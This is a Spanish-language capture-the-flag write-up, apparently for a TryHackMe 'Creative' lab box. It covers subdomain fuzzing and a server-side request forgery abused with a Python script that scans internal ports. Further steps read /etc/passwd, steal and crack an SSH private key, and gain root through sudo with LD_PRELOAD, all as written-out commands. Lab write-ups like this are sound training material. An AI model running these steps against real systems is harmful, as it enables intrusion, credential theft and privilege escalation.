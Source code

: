 Realizamos un escaneo de nmap y encontramos el puerto 80 abierto
![[Pasted image 20240620114710.png]]

Al acceder detectamos que no resuelve el nombre
![[Pasted image 20240620114744.png]]

Añadimos el nombre a nuestro fichero /etc/hosts
![[Pasted image 20240620114848.png]]

Ahora al acceder ya vemos la web y podemos comenzar a analizarla
![[Pasted image 20240620114937.png]]

Hacemos fuzzing con dirbuster y encontramos un subdominio
```
gobuster vhost -u http://creative.thm/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain -t 40
```
![[Pasted image 20240620130006.png]]

Entramos a la ulr y encontramos una barra para escribir dominios, probamos a crear un servidor y a crear un archivo a ver si lo lee
![[Pasted image 20240620132139.png]]

Al escribir la url encontramos que nos ha leido el fichero
![[Pasted image 20240620132211.png]]

Ahora cargaremos un payload para obtener una reverse shell
![[Pasted image 20240620132329.png]]

Intentamos ejecutar la reverse shell pero sin respuesta, si escribirmos `http://localhost` nos enumera la pagina
![[Pasted image 20240620134211.png]]

Así que probaremos a enumerar todos los puertos con burpsuite para averiguar si hay algun servicio mas abierto, para ello generaremos un script el cual podamos insertar todos los puertos en burpsuite y realizar un ataque de fuerza bruta
```Bash
#!/bin/bash

# Nombre del archivo de salida
output_file="puertos.txt"

# Generar los números del 1 al 100
for (( port=1; port<=65535; port++ ))
do
    echo "$port" >> "$output_file"
done

echo "Se ha generado el archivo $output_file con los puertos del 1 al 65535."
```
![[Pasted image 20240620140015.png]]
![[Pasted image 20240620135924.png]]

Preparamos el ataque
![[Pasted image 20240620140101.png|1000]]

Cargamos el fichero previamente generado con el script
![[Pasted image 20240620140138.png]]

Y ejecutamos el ataque con burpsuite, podemos identificar los puertos que tienen un servicio los cuales contengan diferentes caracteres a 184
![[Pasted image 20240620141241.png]]



También podemos hacer esto mas rapido con el siguiente script
```Python
import requests  
import urllib.parse  
from concurrent.futures import ThreadPoolExecutor  
  
def send_post_request(url, payload, headers):  
    try:  
        response = requests.post(url, data=payload, headers=headers)  
        content_length = response.headers.get('Content-Length')  
        if content_length != '13':  # Check if content length isn't 13  
            print(f"POST request to {url} with payload {payload} returned status code: {response.status_code}, content length: {content_length}")  
    except requests.exceptions.RequestException as e:  
        print(f"Error sending POST request: {e}")  
  
def main():  
    base_url = "http://beta.creative.thm"  
    headers = {  
        "Host": "beta.creative.thm",  
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",  
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",  
        "Accept-Language": "en-US,en;q=0.5",  
        "Accept-Encoding": "gzip, deflate, br",  
        "Content-Type": "application/x-www-form-urlencoded",  
        "Origin": "http://beta.creative.thm",  
        "Connection": "close",  
        "Referer": "http://beta.creative.thm/",  
        "Upgrade-Insecure-Requests": "1"  
    }  
  
    # Using ThreadPoolExecutor to run 20 threads concurrently  
    with ThreadPoolExecutor(max_workers=20) as executor:  
        for port_number in range(1, 65536):  
            url = f"http://localhost:{port_number}"  
            payload = f"url=http%3A%2F%2Flocalhost%3A{port_number}"  
            executor.submit(send_post_request, base_url, payload, headers)  
  
if __name__ == "__main__":  
    main()
```
![[Pasted image 20240620141140.png]]

Al ejecutarlo nos muestra los puertos abiertos
![[Pasted image 20240620141202.png]]

Encontramos el puerto 1337, lo escribimos en el buscador y nos abre los directorios del sistema
![[Pasted image 20240620141522.png]]
![[Pasted image 20240620141458.png]]

Leemos el fichero /etc/passwd y obtenemos los usuarios
![[Pasted image 20240620143356.png]]
![[Pasted image 20240620143440.png]]

Si clickamos a view source page podremos verlo mejore
![[Pasted image 20240620143517.png]]
![[Pasted image 20240620143535.png]]

Encontramos el usuario saad, ahora nos descargaremos la clave privada para entrar por ssh
![[Pasted image 20240620144844.png]]
![[Pasted image 20240620144822.png]]

Copiamos la clave en un archivo y le asignamos los permisos, al intentar acceder nos solicita una clave
![[Pasted image 20240620150343.png]]
![[Pasted image 20240620150327.png]]
![[Pasted image 20240620150428.png]]

Para obtener la clave la pasaremos primero a texto plano
![[Pasted image 20240620145822.png]]

Y ahora la crackearemos con john the ripper
![[Pasted image 20240620150021.png]]

Ahora volvemos a probar y ya estaremos dentro
![[Pasted image 20240620150222.png]]

Enumerando informacion encontramos que al revisar el historial del usuario nos muestra unas credenciales, probamos a usar sudo -l y al solciitarnos las credenciales las escribimos y como podemos ver nos ha dado resultado, encontramos la variable `LD_Preload`, revisando por internet encontramos lo sigueinte el siguiente blog
https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/
![[Pasted image 20240621080716.png]]

Vamos a probar a obtener la escalada de privilegios con esta variable, para ello creamos el siguiente archivo en c
![[Pasted image 20240621082335.png]]

Siguiendo los siguientes pasos obtenemos acceso a root sin usar la password, los comandos hacen lo siguiente
![[Pasted image 20240621083610.png]]

- `nano shell.c`: Estamos creando la funcion en c
- `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`: Este comando compila el archivo `shell.c` en una biblioteca compartida (`shell.so`). Los parámetros `-fPIC` y `-shared` son comunes en la compilación de bibliotecas compartidas en Unix/Linux. `-nostartfiles` se usa para evitar la vinculación con archivos de inicio estándar, lo cual es relevante para la creación de bibliotecas compartidas que no necesitan esos archivos.
- `ls -al shell.so`: Listamos el archivo compilado y sus permisos
- `sudo LD_PRELOAD=/tmp/shell.so find`: Aqui estamos usando `sudo` para ejecutar `find` con `LD_PRELOAD` establecido en `/tmp/shell.so`. Esto significa que cuando `find` se ejecute, cargará la biblioteca compartida `shell.so` (renombrada a `/tmp/shell.so`), y debido a la función `_init()` que hemos definido, ejecutará `/bin/sh` con privilegios de superusuario (`root`).

